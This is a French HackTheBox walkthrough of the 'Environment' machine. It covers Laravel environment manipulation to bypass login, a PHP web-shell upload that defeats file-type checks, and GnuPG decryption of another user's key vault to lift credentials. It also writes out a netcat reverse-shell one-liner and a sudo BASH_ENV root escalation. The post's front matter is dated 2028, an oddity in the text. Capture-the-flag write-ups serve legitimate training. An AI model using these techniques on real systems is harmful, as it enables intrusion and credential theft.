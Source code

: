 ```yaml
---
title: Environment
date: 2028-07-18 00:00:00 +0000
categories: [HackTheBox, Linux]
tags: [htb,medium,web]     # TAG names should always be lowercase
image:
    path: /assets/images_HTB/Environment/Environment.png
---
```




# Description

**Environment**, nous fait découvrir une chaîne d’attaque complète allant de la phase de reconnaissance des services exposés à la découverte d’une faiblesse applicative, en passant par une prise de contrôle initiale, l’extraction de données sensibles et l’escalade de privilèges jusqu’aux droits root.

## **Recon**

```bash
rustscan -a 10.10.11.67 -- -sCV
```

```bash
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
| 256 5c023395ef44e280cd3a960223f19264 (ECDSA)
| ecdsa-sha2-nistp256
AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3do kS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
| 256 1f3dc2195528a17759514810c44b74ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp open http syn-ack ttl 63 nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# **etc/hosts**

Le scan précédant nous révèle un nom de domaine que nous allons ajouter dans notre fichier `hosts`

```bash
echo "10.10.11.67 environment.htb" >> /etc/hosts
```

# **SSH-22**

![](/assets/images_HTB/Environment/image2.png)

Authentication avec password est autorisé donc possible attaquer par brute force

# **HTTP-80**

Enumeration des sous répertoire du site avec [dirsearch](https://github.com/maurosoria/dirsearch)

```bash
dirsearch -u http://environment.htb/
```

![](/assets/images_HTB/Environment/image3.png)

dirsearch nous révèle une page de login présente sur le site

![](/assets/images_HTB/Environment/image4.png)

## **Remember**

En interceptant la request de login avec [**Burp Suite**](https://fr.wikipedia.org/wiki/Burp_Suite) tout en modifiant la variable `remember` avec un champ vide une partie du code de l’application s’affiche

![](/assets/images_HTB/Environment/image5.png)

Le code de l'app ne prend en compte que 2 valeur de la variable remember sans gérer les exception

![](/assets/images_HTB/Environment/image6.png)

Nous avons maintenant la version de Laravel utilisée

# **Vulnérabilité**

![](/assets/images_HTB/Environment/image7.png)

La manipulation de la variable `environment` peu permet de de nous connecter directement. Notre version de laravel est [vulnérable](https://www.cybersecurity-help.cz/vdb/SB20241112127) à une [**Environment manipulation**](https://medium.com/@moaminsharifi/is-your-laravel-application-at-risk-the-register-argc-argv-vulnerability-explained-607cc2e6a4d5)

Il ne nous reste plus qu’a intercepter la request de login puis ajouter notre payload

![](/assets/images_HTB/Environment/image8.png)

# Connexion

Page de connexion Mailing

![](/assets/images_HTB/Environment/image9.png)

# **Upload**

![](/assets/images_HTB/Environment/image10.png)

Nous pouvons ajouter une nouvelle image de profile. Essayons de bypasser les filtres pour avoir un shell. Premièrement modifier le filename qui se ternime par un point(.) puis le Content-Type pour `image/jgp`  et en suite mettre GIF89a avant le code php pour fausser la signature du fichier

![](/assets/images_HTB/Environment/image11.png)

Le chemain vers le fichier php est donné par la réponse de la request

![](/assets/images_HTB/Environment/image12.png)

# Test de fonctionnement

![](/assets/images_HTB/Environment/image13.png)

# **Revershelle**

Lancement d'un listener sur le port 9001 puis execution de la commande suivant dans notre cmd php

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.xx.xx port >/tmp/f
```

![](/assets/images_HTB/Environment/image14.png)

# **Encrypted**

Le répertoire personnel de hish contient [gnupg](https://www.gnupg.org/) et `backup` ****contenant un `keyvault` protègent dans donnée intéressante

- **`cp -r /home/hish/.gnupg /tmp/gnupg`**
    
    Copie récursivement le répertoire de configuration GnuPG de l’utilisateur `hish` vers `/tmp/gnupg` car nous n’avons pas les pleins droits sur ce répertoire et son contenu
    
- **`chmod 700 /tmp/gnupg/`**
    
    Change les permissions du dossier copié pour que seul le propriétaire puisse y accéder, comme l’exige GnuPG pour des raisons de sécurité.
    
- **`gpg --homedir /tmp/gnupg/ --list-secret-keys`**
    
    Indique à GnuPG d’utiliser `/tmp/gnupg` comme répertoire de clés (`--homedir`) et affiche la liste des clés privées s’y trouvant, sans toucher à votre configuration principale.
    
- **`gpg --homedir /tmp/gnupg/ --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg`**
    
    Toujours en mode “répertoire alternatif”, déchiffre le fichier chiffré `keyvault.gpg` et écrit le résultat clair dans `/tmp/message.txt`.
    

# SSH

Nous possédons maintenant un ensemble de clé appartenant à hish qui peuvent servir pour la connexion ssh

![](/assets/images_HTB/Environment/image15.png)

Un des password nous permet effectivement d’avoir une session ssh

![](/assets/images_HTB/Environment/image16.png)

# **Prevesc**

![](/assets/images_HTB/Environment/image17.png)

L’exécution de la commande `sudo -l` montre la possibilité d’exciter avec les droits sudo `/usr/bin/systeminfo` ajouté à la variable d’environnement BASH_ENV que l'on peut modifier.

# **Exploit**

Crée dans un premier temps un fichier en bash contenant notre commande puis on le rend exécutable

```bash
echo "bash -p" > get_root.sh
chmod +x get_root.sh
sudo BASH_ENV=./get_root.sh /usr/bin/systeminfo
```

![](/assets/images_HTB/Environment/image18.png)

Et Nous somme `ROOT`